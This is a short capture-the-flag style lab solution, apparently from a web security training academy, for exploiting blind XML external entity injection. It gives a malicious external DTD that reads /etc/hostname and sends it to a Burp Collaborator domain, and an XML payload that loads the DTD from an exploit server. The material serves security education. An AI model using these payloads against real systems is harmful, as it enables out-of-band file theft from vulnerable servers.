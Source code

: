 # Exploiting blind XXE to exfiltrate data out-of-band

## Exploiting blind XXE to exfiltrate data using a malicious external DTD

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the /etc/hostname file.

Exploit:

```XML
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://h4mpvvu7dfq98uosfoe81bwag1mtai.burpcollaborator.net/?x=%file;'>">
%eval;
%exfiltrate;
```

Solution:

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-ac2a1fd71e1c41bbc0373b1201d50007.web-security-academy.net/exploit.dtd"> %xxe; ]>
```